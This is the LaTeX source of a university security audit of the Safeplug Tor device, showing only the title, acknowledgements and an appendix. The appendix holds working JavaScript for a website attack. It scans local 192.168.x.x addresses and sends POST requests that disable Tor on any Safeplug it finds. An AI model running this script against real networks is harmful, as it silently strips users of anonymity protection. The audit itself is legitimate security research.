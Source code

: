 \documentclass[12pt, letterpaper]{article}
\title{Security Audit of Safeplug}
\author{Annie Edmundson and Anna Kornfeld Simpson}
\begin{document}
\maketitle









\section{Acknowledgements}
We would like to express our gratitude to Josh Kroll for donating a lot of time and his computer to the routing effort.  We also thank whoever left the very nice set of screwdrivers on our desks!

This paper represents our own work in accordance with University regulations.

Anna Kornfeld Simpson and Annie Edmundson



\newpage
\appendix
\section{\\Javascript for Website Attack} \label{App:AppendixA}


\begin{lstlisting}
function go() { 
   var IP_SCANS = 255;
   var prefixes = new Array("http://192.168.0.", "http://192.168.1.");
   //var prefix = "http://172.";
   var prefix = "http://192."
   var SECOND_START = 168;
   var SECOND_END = 168;
   var THIRD_START = 0;
   var THIRD_END = 1;
   var mydate = new Date();
   console.log(mydate.getTime());

   for (var i = SECOND_START; i <= SECOND_END; i++) {
      for (var j = THIRD_START; j <= THIRD_END; j++) {
         for (var k = 0; k < IP_SCANS; k++) 
         {
            var tryip = prefix +  i + "." + j + "." + k;
            var req = new XMLHttpRequest();
            req.open("POST", tryip + "/svc/xspctrl/disableTor", true);
            req.timeout = 1000;
            //console.log(reqs[i].readyState);
/*         req.onreadystatechange = function (ip) 
           { 
           return function() { console.log(ip); }
           } (tryip); */
            //console.log(reqs[i]);
            req.send();
         }
         // COMMENT THIS OUT BEFORE RUNNING LARGE SCANS!
         var mydate2 = new Date();
         console.log(mydate2.getTime() + " " + j);
      }
      var mydate = new Date();
      console.log(mydate.getTime() + " " + i);
   }
}
\end{lstlisting}
\end{document}
